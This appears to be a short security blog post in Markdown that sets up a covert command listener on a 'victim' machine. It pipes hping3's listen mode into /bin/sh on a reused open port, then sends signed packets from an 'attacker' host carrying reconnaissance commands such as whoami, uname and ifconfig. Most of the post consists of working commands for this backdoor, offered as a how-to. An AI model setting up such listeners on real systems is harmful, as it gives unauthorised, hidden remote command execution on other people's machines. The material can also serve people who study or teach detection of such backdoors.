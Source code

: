 ```yaml
---
title:  "Hidden Command Listener"
categories: [Steganography]
---
```


![Logo](/assets/images/backdoor.jpg)

## Create a hidden command listener by reusing an open port

### Scenario:
* **Box A** - Victim, running a network service on port 8834. We'll reuse this port!
* **Box B** - Attacker host behind NAT. Will transmit commands to the listener waiting on the victim.

This is similar to a reverse shell from box A to box B, except that B will need another way to view results of the commands executed on A:

**A (Victim's box)**:
```bash
$ sudo hping3 --listen SecretSignature -I vboxnet0 -p 8834 | /bin/sh
```

Explanation for the parameters:
```
--listen  - Listen mode. Waits for packets containing the signature and dump the data from signature to the end of the packet 
-I        - Interface to listen on
-p        - Listening port
```

This will intercept packets and dump the content after a matching signature. Commands will be passed to the shell to be executed. Another trick would be needed to view the output of the commands though.

**B (Attacker's box**: 
```bash
$ sudo hping3 --count 1 --data 200 --file commands.txt --sign SecretSignature 192.168.56.1 -V -p 8834
```

Explanation for the parameters:
```
--count 1   - Stop after sending 1 packet
--data 200  - Set packet body size in bytes
--file      - Fill packet with data from file
--sign      - Fill first a signature in the packet
-V          - Verbose mode
-p          - Destination port
```

The content of the commands file:
```bash
$ cat commands.txt
echo 123 > hacked.txt
whoami > log.txt
uname -a >> log.txt
pwd >> log.txt
ls -al >> log.txt
ifconfig -a >> log.txt

```

The commands should have been executed on victim's machine (A) and results saved in the corresponding log file.

<div class="box-note">
The new line at the end of the commands file is important to get the last instruction executed!
</div>
